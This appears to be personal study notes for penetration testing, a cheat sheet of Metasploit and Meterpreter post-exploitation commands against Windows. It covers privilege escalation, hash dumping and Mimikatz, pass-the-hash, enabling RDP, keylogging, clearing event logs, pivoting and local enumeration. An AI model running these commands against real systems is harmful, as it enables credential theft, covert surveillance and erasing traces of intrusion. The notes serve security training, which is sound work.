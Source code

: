 ![](</Images/Pasted image 20240103201637.png>)
### different metasploit commands

### meterpreter
getsystem
> use to elevate privs

hashdump
> dump hases

#NTML hash format
username:UID:LM hash:NTML hash
### modules (can also use #Kiwi via load in meterpreter)
win_privs
> enumerate current user privs

enum_logged_on_users
> numerate users that are logged on

checkvm
> check to see if system is vm or not. Useful to see if breaking out of vm is possible

enum_applicaitons
> see what programs are installed along with versions

enum_av_exluded
> will show folders that are excluded from AV program. If there is one exploits can be hidden here

enum_computers
>enumerate connected machines

enum_patches
> enumerate applied patches

All of this info is stored locally. if created in a workspace `loot` command will list out these files

### Mimikatz
This is Kiwi running Mimikatz in memory. Due to Mimikatz needing to be uploaded to target system. Can be found here:

From meterpreter: `upload /.usr/share/windows-resources/mimikatz/` then find correct version and file. Execute once on system. Commands are different. ie `privilege::debug` format

Pass the hash with #psexec 
See [Tools](obsidian://open?vault=cheatsheet&file=Tools%2FPSExec)

### enable RDP post explotation
`search enable_rdp`

That enables rdp along with port. Once done use #xfreerdp to connect. Requires credentials which can be created with `enable_rdp`

To login:
```
xfrerdp /u:<user> /p:<pass> /v:<ip>
```

### keylogging

Feature inside meterpreter
`keyscan_start`
`keyscan_dump`
`keyscan_stop`

### clearing windows event logs
From meterpreter `clearev`

### Pivoting
#pivoting

With #meterpreter 
Run ipconfig for IP 

`run autoroute -s <ip>/<subnet>`

Note route is **only** available for msf tools using this method. To scan for ports on new machine use `auxiliary/scanner/portscan/tcp`

If use is needed outside of msf port forwarding is required. Done in meterpreter
`portfwd add -l <local port> -p <port to forward> -r <new IP>`

Then to use nmap scan local  port from above:
`db_nmap -sV -p <local port from above> localhost`

If attempting a meterpreter session use `windows/meterpreter/bind_tcp` change port if running meterpreter already

![](</Images/Pasted image 20240115133710.png>)
## Enumerating
![](</Images/Pasted image 20240115134525.png>)

### meterpreter
getuid: get user info
sysinfo: get system info
getprivs: see privileges 

### command prompt
hostname: hostname
systeminfo: gives a lot of info on system, including hotfixes

## WMIC 
use once logged onto windows system
Collects additional system info especially with hotfixes
`wmic qfe get Caption,Description,HotFixID,Installation`

# Enumerating Users and Groups
### meterpreter
getuid check for admin level
getprivs: lists out privileges
shell: open cmd.exe

### shell
whoami: show user info
whoami /priv: shows privs
query user: shows current logged on users !important
net users: shows other accounts in system
net user administrator: shows info on particular user. administrator in example
net localgroup administrators: lists members in a group

### metasploit
post/windows/gather/enum_logged_on_users: shows users that have logged in recently
post/windows/gather/win_privs: msf script to show privs
enum_computers: will enumerated all connected computers

show_mount: shows mounted drives
# Enumerating Network Information

![](</Images/Pasted image 20240115151100.png>)
### shell
ipconfig: shows network information
ipconfig /all: additional network information
route print: gives rounting info
arp -a list arp information
netstat -ano: lists active connections
netsh advfirewall firewall dump: gives firewall info
netsh advfirewall firewall show allprofiles: show if windows firewall is running
netsh advfirewall: gives help menu

Seeing firewall rules can help with listeners on open ports

# Enumerating Processes & Services

![](</Images/Pasted image 20240115152552.png>)

### meterpreter
ps: list out running processes
pgrep explorer.exe: to search for PID by process name
- migrate to explorer.exe preferred
migrate 2176: migrate to a process

### shell
net start: shows background services that are started. Not processes
wmic service list brief: similar to ps
tasklist /SVC: lists running processes, services, PID's
schtasks /query /fo LIST v: lists scheduled tasks (like crontab for exploitation)

# Automating Windows Local Enumeration

### JAWS
automated script to help enumeration and find escalation vectors. Can be found [here](www.github.com/411Hall/JAWS)

crtl + shift + alt to open clipbpard in guacamole

upload file into Temp and swtich meterpreter to shell to execute

Need to set executpoion policy first

powershell.exe -ExecutionPolicy Bypass -File .\\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt